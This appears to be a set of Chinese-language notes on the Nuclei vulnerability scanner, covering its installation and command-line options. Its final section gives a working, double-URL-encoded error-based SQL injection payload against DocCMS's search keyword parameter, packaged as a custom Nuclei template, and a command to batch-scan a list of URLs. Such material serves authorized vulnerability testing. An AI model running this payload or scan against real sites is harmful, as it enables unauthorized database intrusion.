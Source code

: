 - [下载安装](#下载安装)
- [工具使用](#工具使用)
  - [基本参数](#基本参数)
  - [Research-1](#research-1)

> 工具定位
> - 漏洞扫描，自定义POC
> 
>相关链接
>- https://nuclei.projectdiscovery.io/templating-guide/protocols/http/
>- https://github.com/projectdiscovery/nuclei/blob/master/README_CN.md

## 下载安装
官网地址：https://github.com/projectdiscovery/nuclei
```
# MacOSX
brew install nuclei
# Go
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
```

## 工具使用

### 基本参数

```
用法：
  nuclei [命令]

命令：
目标：
   -u, -target string[]                 指定扫描的URL/主机
   -l, -list string                     指定需要扫描的URL/主机文件（一行一个）

模板：
   -t, -templates string[]              指定需要扫描的模板或者模板的路径
   -nt, -new-templates                  只扫描最新版本中添加的模板
   -ntv， -new-templates-version        运行在特定版本中添加的新模板
   -w, -workflows string[]              指定扫描中的工作流或者工作流目录
   -validate                            验证通过的模板
   -tl                                  列出所有可用的模板

过滤：
   -tags string[]                       执行有标记的模板子集
   -etags, -exclude-tags string[]       执行标记为排除的模板
   -itags, -include-tags string[]       不执行具有攻击性的模板
   -et, -exclude-templates string[]     要排除的模板或者模板目录
   -it, -include-templates string[]     执行默认或配置中排除的模板
   -s, -severity value[]                根据严重程度运行模板，可候选的值有：info,low,medium,high,critical   
   -es, -exclude-severity value[]       根据严重程度排除模板，可候选的值有：info,low,medium,high,critical   
   -a, -author string[]                 执行指定作者的模板

输出：
   -o, -output string                   输出发现的问题到文件
   -silent                              只显示结果
   -nc, -no-color                       禁用输出内容着色（ANSI转义码）
   -json                                输出为jsonL（ines）
   -irr, -include-rr                    在JSONL中输出对应的请求和相应（仅结果）
   -nm, -no-meta                        不显示匹配的元数据
   -nts, -no-timestamp                  不在输出中显示时间戳
   -rdb, -report-db string              本地的Nuclei结果数据库（始终使用该数据库保存结果）       
   -me, -markdown-export string         以markdown导出结果
   -se, -sarif-export string            以SARIF导出结果

配置：
   -config string                       指定Nuclei的配置文件
   -rc, -report-config string           指定Nuclei报告模板文件
   -H, -header string[]                 指定报告中的标题：value格式
   -V, -var value                       通过var=value指定var值
   -r, -resolvers string                指定Nuclei的解析文件
   -sr, -system-resolvers               当DNS错误时使用系统DNS
   -passive                             启用被动扫描处理HTTP响应
   -ev, env-vars                        在模板中使用环境变量

交互：
   -inserver, -ineractsh-server string  使用interactsh反连检测平台（默认为"https://interact.sh"）
   -itoken, -interactsh-token string    指定反连检测平台的身份凭证
   -interactions-cache-size int         指定保存在交互缓存中的请求数（默认：5000）
   -interactions-eviction int           从缓存中删除请求前等待的时间（默认为60秒）
   -interactions-poll-duration int      每个轮询前等待时间（默认为5秒）
   -interactions-cooldown-period int    退出轮询前的等待时间（默认为5秒）
   -ni, -no-interactsh                  禁用反连检测平台，同时排除基于反连检测的模板

限速：
   -r1, -rate-limit int                 每秒最大请求量（默认：150）
   -rlm, -rate-limit-minute int         每分钟最大请求量
   -bs, -bulk-size int                  每个模板最大并行检测数（默认：25）
   -c, -concurrency int                 并行执行的最大模板数量（默认：25）


优化：
   -timeout int                         超时时间（默认为5秒）
   -retries int                         重试次数（默认：1）
   -mhe, -max-host-error int            某主机扫描失败次数，跳过该主机（默认：30）
   -project                             使用项目文件夹避免多次发送同一请求
   -project-path string                 设置特定的项目文件夹
   -spm, -stop-at-first-path            得到一个结果后停止（或许会中断模板和工作流的逻辑）
   -stream                              流模式 - 在不整理输入的情况下详细描述

无界面浏览器：
    -headless                           启用需要无界面浏览器的模板
    -page-timeout int                   在无界面下超时秒数（默认：20）
    -sb, -show-brower                   在无界面浏览器运行模板时，显示浏览器
    -sc, -system-chrome                 不使用Nuclei自带的浏览器，使用本地浏览器

调试：
    -debug                              显示所有请求和响应
    -debug-req                          显示所有请求
    -debug-resp                         显示所有响应
    -proxy, -proxy-url string           使用HTTP代理
    -proxy-socks-url string             使用SOCK5代理
    -tlog, -trace-log string            写入请求日志到文件
    -version                            显示版本信息
    -v, -verbose                        显示详细信息
    -vv                                 显示额外的详细信息
    -tv, -templates-version             显示已安装的模板版本

升级：
    -update                             更新Nuclei到最新版本
    -ut, -update-templates              更新Nuclei模板到最新版
    -ud, -update-directory string       覆盖安装模板
    -duc, -disable-update-check         禁用更新

统计：
    -stats                              显示正在扫描的统计信息
    -sj, -stats-json                    将统计信息以JSONL格式输出到文件
    -si, -stats-inerval int             显示统计信息更新的间隔秒数（默认：5）
    -m, -metrics                        显示Nuclei端口信息
    -mp, -metrics-port int              更改Nuclei默认端口（默认：9092）
```

### Research-1
批量检测，达成条件，向URL发送指定GET参数获取相应返回结果
- 请求URL：`https://example.com/search/index.php`
- 请求参数(GET)：`keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33`
- 获取响应内容包含 `ORDER BY id DESC` 的结果

自定义yaml模板
```yaml
# 必要字段 ID
id: DocCMS-keyword-SQLi
# 必要字段INFO
info:
    name: DocCMS-keyword-SQLi
    author: kylin
    tags: sqli,DocCMS
    reference: http://wiki.peiqi.tech/wiki/cms/DocCMS/DocCMS%20keyword%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
    severity: high
# HTTP请求数据包
requests:
  # 原始数据包(RAW)内容
  - raw:
    - |
      GET /search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33/ HTTP1.1
      Host: {{Hostname}}
    # 匹配字符串包含 ORDER BY id DESC
    matchers:
      - type: word
        words:
          - "ORDER BY id DESC"
```

至此单个测试成功

![图 4](../../@attachment/images/Security/安全工具/nuclei_1661280665338.png)  

指定 DocCMS-keyword-SQLi.yaml 模板并且指定 urls.txt 文件扫描

```
nuclei -l urls.txt -t DocCMS-keyword-SQLi.yaml
```